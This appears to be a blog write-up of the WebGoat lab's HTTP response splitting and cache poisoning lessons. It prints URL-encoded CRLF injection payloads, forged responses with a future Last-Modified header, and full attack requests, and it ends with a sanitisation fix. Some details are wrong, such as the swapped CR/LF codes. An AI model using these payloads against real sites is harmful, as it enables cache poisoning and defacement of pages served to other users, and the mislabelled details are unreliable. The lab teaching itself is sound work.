 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 1"
date:   2017-01-24 00:50:00 -0500
categories: coding security owasp bwa
---
```

# HTTP Response Splitting
HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the response parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert newline characters(%0a on Linux, %0a%0d on Windows) into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, there is another response that was created from our first request. Using this response combined with some knowledge of how the webcache and webserver interact, we can craft an attack that could affect any other users of the resource.

# Cache Poisoning
So we have previously shown that we can split a single request into two separate responses, the second of which is completely attacker controlled. Now we can manipulate a mechanism that the webserver and webcache use for serving content in order to expose our crafted response to the maximum number of target users of the website.

Remember that in our first HTTP splitting example, the truncated response for the redirect resource was matched to our intial request. This left our payload response "on the wire" so to speak, as there was not a matching request for this resource. In a naive attack, the next request for a resource would be matched to our payload response and the payload would be served to whoever sent that request. However, we want to maximize the impact of our attack. Enter caching.

Caching is a way that the webserver serves the most up-to-date version of a resource to users of the site. Any requests that are sent for a resource on a webserver are served the cached version of the resource. Using HTTP splitting, we can perform a "cache poisoning" attack, in which we replace the expected cache of a resource with our malicious version. This is done by adding a "Last-Modified" header to the forged request with a date in the future.

So, now our attack looks like this:

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aLast-Modified:%20Fri,%2020%20Jan%202018%2013:35:00%20EST%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

which translates to the following responses:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0

HTTP/1.1 200 OK
Last-Modified: Fri, 20 Jan 2018 13:35:00 EST
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now during this attack we send two requests. The first request is our malicious form, and the second request is for the webserver resource that we would like to replace with our malicious response, like so:

Request 1:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=foobar%0aContent-Length:%2043%0a%3Chtml%3E123456789012345678901234567890%3C/html%3E
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 271

language=test%250aContent-Length%3A%25200%250a%250aHTTP%2F1.1%2520200%2520OK%250aLast-Modified%3A%2520Fri%2C%252020%2520Jan%25202018%252013%3A35%3A00%2520EST%250aContent-Type%3A%2520text%2Fhtml%250aContent-Length%3A%252017%250a%3Chtml%3Epwnd%3C%2Fhtml%3E&SUBMIT=Search%21
```

Request 2:

```
GET /WebGoat/index.html HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```

When we send the malicious request, it is matched to the original redirect response. Now we have another response waiting to match with a request. Now our second request is received and matched with our malicious response. The webcache sees that the "Last-Modified" header is present in the response, and the date is more recent than the existing cached version, so it replaces the cache for the requested resource ("index.hmtl") with the malicious response ("<html>pwnd</html>").

<img src="{{ site.baseurl }}/images/part1pwnd.jpg">

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.

### Resources

1 [HTTP Response Splitting Whitepaper][http-splitting-whitepaper]

2 [OWASP HTTP Response Splitting][owasp-splitting]

[http-splitting-whitepaper]:https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf
[owasp-splitting]:https://www.owasp.org/index.php/HTTP_Response_Splitting